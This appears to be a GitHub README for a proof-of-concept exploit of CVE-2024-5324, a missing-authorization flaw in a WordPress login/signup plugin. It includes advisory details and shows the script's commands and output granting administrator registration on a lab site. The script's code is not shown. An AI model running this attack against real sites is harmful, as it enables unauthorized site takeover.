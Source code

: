 # CVE-2024-5324
Login/Signup Popup ( Inline Form + Woocommerce ) 2.7.1 - 2.7.2 - Missing Authorization to Arbitrary Options Update

# Description:
The Login/Signup Popup ( Inline Form + Woocommerce ) plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the 'import_settings' function in versions 2.7.1 to 2.7.2. This makes it possible for authenticated attackers, with Subscriber-level access and above, to change arbitrary options on affected sites. This can be used to enable new user registration and set the default role for new users to Administrator.

```
 Severity: high
 CVE ID: CVE-2024-5324
 CVSS Score: 8.8
 CVSS Metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
 Plugin Slug: easy-login-woocommerce
 WPScan URL: https://www.wpscan.com/plugin/easy-login-woocommerce
 Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/005a27c6-b9eb-466c-b0c3-ce52c25bb321?source=api-prod
```


How to use
---

```
$ python3 CVE-2024-5324.py --url http://wordpress.lan -un test -p test
The plugin version is 2.7.1.
Vulnerability check: http://wordpress.lan
Logged in successfully.
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
You can now register a user on the as a admin.

$ python3 CVE-2024-5324.py --url http://wordpress.lan -un test -p test --fix e
The plugin version is 2.7.1.
Vulnerability check: http://wordpress.lan
Logged in successfully.
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
Options reset to default
```
